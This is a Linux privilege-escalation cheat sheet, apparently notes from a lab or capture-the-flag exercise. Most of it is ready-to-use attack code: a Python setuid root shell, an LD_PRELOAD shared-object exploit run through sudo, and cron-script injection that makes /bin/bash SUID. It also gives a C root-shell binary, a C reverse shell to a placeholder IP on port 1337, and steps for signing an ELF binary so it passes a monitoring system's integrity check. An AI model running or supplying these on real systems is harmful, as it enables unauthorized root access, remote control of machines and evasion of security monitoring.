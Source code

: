 ##  Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

##  LD\_PRELOAD + sudo

### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

##  Crontab 

###  🔹Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

###  🔹Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

##  Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

##  SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed by a script with SUID.

---

## Reverse Shell via C binary (signed)

```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```

> Compiles a binary that spawns a  reverse shell on port 1337 when executed by a root srcipt like cronjob

---
## ELF Signing Tool

To bypass signature verification by the monitoring system, we signed the ELF binary using:

🔗 [linux-elf-binary-signer GitHub repository](https://github.com/NUAA-WatchDog/linux-elf-binary-signer)

Sign the binary with:
```bash
./elf-sign sha256 key.pem key.pem monitor
```

This generates a signed ELF executable that passes integrity checks during the scan.
